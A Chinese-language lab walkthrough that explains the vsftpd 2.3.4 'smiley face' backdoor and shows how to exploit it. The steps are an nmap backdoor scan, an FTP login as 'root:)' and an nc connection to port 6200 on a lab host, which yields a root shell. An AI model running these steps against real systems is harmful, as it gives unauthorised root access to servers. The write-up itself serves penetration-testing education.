





## 介绍：

VSFTP是一个基于GPL发布的类Unix系统上使用的FTP服务器软件，它的全称是Very Secure FTP 。

vsftpd-2.3.4早期版本存在恶意的后门，通过登录名中嵌入 :) 两个连续符号而触发的漏洞，因外形酷似笑脸而得名。


## 演示

1. 扫描目的主机

   打开kali使用nmap对目的主机进行扫描(目的主机地址为192.168.43.9)

   ```shell
   nmap --script ftp-vsftpd-backdoor 192.168.43.9
   ```

   

2. 触发笑脸漏洞

   在命令行里接着用ftp尝试登录目的主机

   ```
   ftp 192.168.43.9
   ```

   

   这里提示我们输入用户名，我们目的是拿到最高权限，即用root账户登录靶机

   用户名我们输入root：）

   密码随便输入后点击回车等待

   

3. 开始渗透靶机

   打开一个新的命令行，用nc连接靶机

   ```
   nc 192.168.43.9 6200
   ```

   回车后现在就已经连接上了靶机

   

   验证下是否渗透成功

   输入id查看当前登录用户

   

   看到确实是root用户登录